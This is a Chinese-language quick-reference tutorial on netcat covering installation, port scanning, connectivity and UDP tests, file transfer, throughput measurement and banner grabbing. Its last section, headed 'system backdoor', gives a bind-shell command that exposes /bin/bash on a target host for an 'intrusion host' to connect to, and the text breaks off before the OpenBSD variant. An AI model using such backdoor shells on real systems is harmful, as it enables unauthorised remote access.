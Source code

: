# netcat快速使用  
> nc很强大，容易让人蹲号子
## 安装  
### Windows 
下载地址：https://eternallybored.org/misc/netcat/   
解压即用，可用在环境变量中添加文件夹位置以便在cmd中调用  
### Linux  
许多发行版Linux都预安装了netcat，使用```readlink -f $(which nc)```命令来检测预安装的版本  
+ ```/bin/nc.traditional```: 默认 GNU 基础版本，一般系统自带
+ ```/bin/nc.openbsd```: openbsd 版本，强大很多
  
此文基于OpenBsd版本  
安装：
+ ```apt-get install nc-traditional``` 
+ ```apt-get install nc-openbsd```  
切换版本：```sudo update-alternatives --config nc```  
### KALI
安装：```apt-get install netcat```
## 快速使用  
+ 端口测试  
测试主机（192.168.1.1）的8080端口是否打开：```nc -zv 192.168.1.1 8080```  
测试主机（192.168.1.1）一定范围内的端口开放情况：```nc -v -v -w3 -z 192.168.1.2 8080-8083```
    + -z：不发送数据
    + -v：显示更详细的信息，可使用多个v参数提高显示等级  
    + -w3：扫描超市时间为3秒  
+ 传输测试  
在两台主机之间使用netcat在特定端口传输数据测试端口连通性    
测试主机A(192.168.1.1)在8080的端口上打开监听：```nc -l -p 8080```  
测试主机B(192.168.1.2)连接到主机A的8080端口：```nc 192.168.1.1 8080```  
    + -l：监听模式
    + -p：设定用于连接的本地端口  
    + 使用ctrl+c结束会话
    + -k：服务端将在连接断开后持续工作（可选）  
+ 测试UDP会话  
测试主机A与主机B的UDP可到达情况  
测试主机A(192.168.1.1)在8080的端口上打开UDP监听：```nc -u -l -p 8080```  
测试主机B(192.168.1.2)连接到主机A的8080端口：```nc -u 192.168.1.1 8080```   
    + -u：UDP模式  
    + 使用ctrl+c结束会话
+ 文件传输  
从主机B向主机A上传输文件  
测试主机A(192.168.1.1)上监听端口8080：```nc -l -p 8080 > test.txt```  
测试主机B(192.168.1.2)上进行发送：```nc 192.168.1.1 8080 < test.txt```  
    + -N：stdin碰到EOF就关闭连接
    + 使用ctrl+c结束会话  
+ 网速吞吐量测试  
测试主机B与主机A之间的网速吞吐量  
A主机(192.168.1.1)打开8080端口准备接受文件，搭配pv命令监听：```nc -l -p 8080 | pv```  
B主机(192.168.1.2)进行文件传输：```nc 192.168.1.1 8080 < test.txt```  
    + pv：通过管道显示数据处理进度的信息
+ 抓取服务Banner  
```nc -nv 192.168.1.1 443```
+ 系统后门：  
    - 正向SHELL  
    GNU版本：  
    目标主机(192.168.1.1)：```nc -l -p 8080 -e /bin/bash```  
    入侵主机(192.168.1.2)：```nc 192.168.1.1 8080```  
    OpenBsd版本：  
```